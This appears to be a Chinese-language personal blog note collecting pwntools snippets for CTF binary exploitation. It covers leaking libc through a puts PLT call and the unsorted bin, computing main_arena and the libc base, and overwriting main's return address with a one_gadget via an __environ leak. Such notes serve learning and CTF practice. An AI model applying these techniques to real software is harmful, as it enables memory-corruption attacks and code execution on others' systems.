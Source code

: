```yaml
---
title: pwntools-code
date: 2018-03-31 21:23:18
categories:
tags:
	- tools
	- pwntools
---
```




**简单的记一下 pwntools 用到的命令 (不定期更新)**



`context.terminal = ['gnome-terminal', '-x', 'sh', '-c']`

`context.log_level = "debug"`

`p = process("./4-ReeHY-main")`

`libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')`

```python
gdb.attach(p,'''
b *0x080486bf
continue
''')
```

`libc_system = libc.symbols['system']`
`libc_binsh = next(libc.search("/bin/sh"))`

`puts_plt = elf.plt['puts']`

`p.recvuntil("$ ")`

`p.sendline("3")`

`p.interactive()`

`log.success('puts addr: ' + hex(puts_addr))`

```python
system_addr = u64(puts_addr+'\x00'*2)-puts_off+system_off
atoi_addr = u64(p.recv(8)) & 0xffffffffffff  
```


```Python
def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset
```

`    log.success('main arena addr: ' + hex(main_arena))`





**通过main_arena确定libc_base:**

首先要确定能够输出 chunk_A 内容，然后将chunk_A 链入 unsortedbin_addr (size>=0x80)。

unsortedbin_addr 中的 fb 就指向unsortedbin bins开头 ， 输出A内容，泄露unsortedbin_addr。

通过offset_bin_main_arena(0) 确定偏移。

```python
main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
main_arena_offset = 0x3c4b20  
#通过gdb.attach(),vmmap 查看 第一个 .os 的其实地址 为 libc_base
# main_arena_offset = main_arena - libc_base
libc_base = main_arena - main_arena_offset
```

![img-2](pwntools-code/img-2.png)





**获取 main_arena 地址2**  , 确定libc_base

首先要确定能够输出 chunk_A 内容，然后将chunk_A 链入 unsortedbin_addr (size>=0x80)。

unsortedbin_addr 中的 fb 就指向unsortedbin bins开头 ， 输出A内容，泄露unsortedbin_addr。

main_arena = unsorted_offset_arena - unsorted_offset_arena(10*8+8)

![img-1](pwntools-code/img-1.png)

通过gdb.attach(),   vmmap 查看 第一个 .os 的其实地址 为 libc_base

main_arena_offset = main_arena - libc_base

**libc_base = main_arena - main_arena_offset**

![img-2](pwntools-code/img-2.png)

相关代码：

```python
main_arena_offset = 0x3c4b20
unsorted_offset_arena = 8 + 10 * 8
main_arena = unsorted_offset(泄露) - unsorted_offset_arena
#gdb.attach()
libc_base = main_arena - main_arena_offset
log.success('main arena addr: ' + hex(main_arena))
log.success('libc base addr: ' + hex(libc_base))
```





**修改程序的 main 函数的返回地址为 one_gadget**

需要知道需要泄露 libc_base 和 environ_pointer

```python
environ_pointer = libc_base + libc.symbols['__environ']
environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00') 
#泄露environ_pointer 得到 environ_addr
environ_addr = u64(environ_addr)
main_ret_addr = environ_addr - 30 * 8
```

main_ret_addr 修改其内存地址为exc() 。